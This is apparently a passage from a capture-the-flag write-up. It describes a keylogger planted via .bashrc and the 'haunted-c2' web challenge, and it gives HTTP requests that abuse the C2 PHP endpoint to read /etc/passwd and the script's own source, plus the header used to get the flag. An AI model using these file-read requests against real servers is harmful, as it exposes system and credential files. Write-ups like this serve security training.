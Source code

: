 What we need to understand here is that everything written in `/tmp/systemcontrol614af1b65d944d989a457c21a39b4377.sock` will be sent to a distant server

This look like a keylogger to me, so I took a look in `/home/simon/.bashrc` to fint out a redirection into the unix socket with the first part of the flag in `b64`


# Flag 2: haunted-c2
Once solved, it open a WEB tile, so my teammate @`aulyxs` solved it

Here are the request he use to capture the flag!
He sent those to the server we found in the `systemcontrol` code

```h
POST
/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=upload HTTP/1.1
Host: REDACTED
Content-Type: appplication/json
Content-Length: 62

{"data":"L2V0Yy9wYXNzd2Q=","id":"1","time":"1","hostname":"1"}
```

`L2V0Yy9wYXNzd2Q=` is `/etc/passwd`


```bash
echo NjE0YWYxYjY1ZDk0NGQ5ODlhNDU3YzIxYTM5YjQzNzcucGhw | base64 -d
614af1b65d944d989a457c21a39b4377.php
```

```h
GET
/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=view&file=NjE0YWYxYjY1ZDk0NGQ5ODlhNDU3YzIxYTM5YjQzNzcucGhw HTTP/1.1
Host: REDACTED
```

We now ave the code

![alt text](img/2.png)

Sending the `SECRET` header

```h
/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=flag HTTP/1.1
Host: REDACTED
SECRET: 8662884dcb7e466e87809190e3f5ed9
```

It will reveal the flag `NICC{0h_n0_y0u_c4ught_m3!}`
